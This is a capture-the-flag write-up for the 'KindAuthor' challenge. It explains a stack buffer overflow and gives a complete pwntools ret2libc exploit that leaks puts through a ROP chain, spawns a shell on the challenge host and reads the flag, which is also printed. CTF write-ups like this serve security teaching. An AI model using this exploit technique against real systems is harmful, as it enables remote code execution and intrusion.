





# KindAuthor - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:


---

## Challenge Summary

The KindAuthor binary contains a classic buffer overflow vulnerability in the func() function, where 128 bytes of input are read into a 32-byte buffer without bounds checking. This allows an attacker to overwrite the return address and hijack control flow.

The goal is to exploit this vulnerability to perform a ret2libc attack: by overwriting the return address with a crafted payload, we can call standard libc functions (e.g., system("/bin/sh")) to spawn a shell and retrieve the flag. No PIE is involved, so addresses of functions like puts or read can be used directly or leaked to resolve the libc base.

## Binary Information

```bash
$ file KindAuthor
```



```bash
$ checksec KindAuthor
```



---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
ssize_t func() {
    _BYTE buf[32]; // [rsp+0h] [rbp-20h] BYREF
    return read(0, buf, 0x80uLL);  // Buffer overflow
}
```



- The `func()` function reads **128 bytes** of input into a **32-byte buffer**, resulting in a classic **stack-based buffer overflow**.
- This overflow allows an attacker to **overwrite the return address** and control the program’s execution flow.

### Main Function

```c
int main(int argc, const char **argv, const char **envp) {
    puts("Hello\nInput your data:");
    func();
    return 0;
}
```



- The `main()` function simply calls `func()` after printing a message. There are no mitigations like canaries or input validation.

### Goal

- The binary is suited for a **ret2libc** attack, where the attacker can:

  - Leak a libc address (e.g., via `puts@plt`).
  - Calculate the **libc base**.
  - Use `system("/bin/sh")` to spawn a shell and get the flag.

---

## Exploit Strategy

### Step 1: Overflow the Buffer

We send more than 32 bytes of input to the `func()` function, overflowing the buffer and overwriting the **return address** on the stack.

### Step 2: Leak a libc Address

We craft a ROP chain that calls `puts(puts@got)` to leak the actual address of `puts` at runtime. This allows us to calculate the **libc base address**.

### Step 3: ret2libc to Spawn a Shell

Using the libc base, we construct another ROP chain that calls `system("/bin/sh")`, giving us a shell and access to the flag.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template KindAuthor --host ctf.mf.grsu.by --port 9075
from pwn import *
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'KindAuthor')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9075)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')
else:
    libc = ELF('libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# RUNPATH:    b'./'
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

# ——— Build ROP ———
rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

offset = 40
payload = flat(
    b'A' * offset,
    pop_rdi,
    exe.got['puts'],     # argument to puts
    exe.plt['puts'],     # call puts( puts@got )
    exe.symbols['main']  # jump back to main/menu
)
io.sendline(payload)
io.recvline()
io.recvline()
puts_leak = u64(io.recvline().strip().ljust(8, b'\x00'))
libc.address = puts_leak - libc.symbols['puts']
log.success(f"libc.address : {hex(libc.address)}")

rop = ROP(libc)

system_addr = libc.symbols['system']
binsh_addr   = next(libc.search(b"/bin/sh\x00"))
pop_rdi     = rop.find_gadget(['pop rdi', 'ret'])[0]
ret      = rop.find_gadget(['ret'])[0]
exit_addr = libc.symbols['exit']
rop_chain = flat(
    b'A' * offset,
    ret,
    pop_rdi,
    binsh_addr,
    system_addr,
    exit_addr
)

io.recvuntil(b"Input your data:")
io.recvline()
io.sendline(rop_chain)
time.sleep(1)
io.sendline(b'cat flag.txt')

flag = io.recvline().strip()
log.success(f"FLAG : {flag.decode()}")


```

---

## Exploit Output


---

## Vulnerability Summary

- The `func()` function contains a **buffer overflow**, reading 128 bytes into a 32-byte buffer.
- This enables the attacker to **overwrite the return address** and hijack control flow.
- The vulnerability allows for a **ret2libc attack**, where we:

  - Leak a libc address (e.g., `puts@got`) to calculate the **libc base**.
  - Use this to call `system("/bin/sh")` and spawn a shell.

---

## Flag

```
grodno{bL491M1_N4M3R3n1Y4m1_VYm05ch3n4_d0R094_v_5h3lL}
```
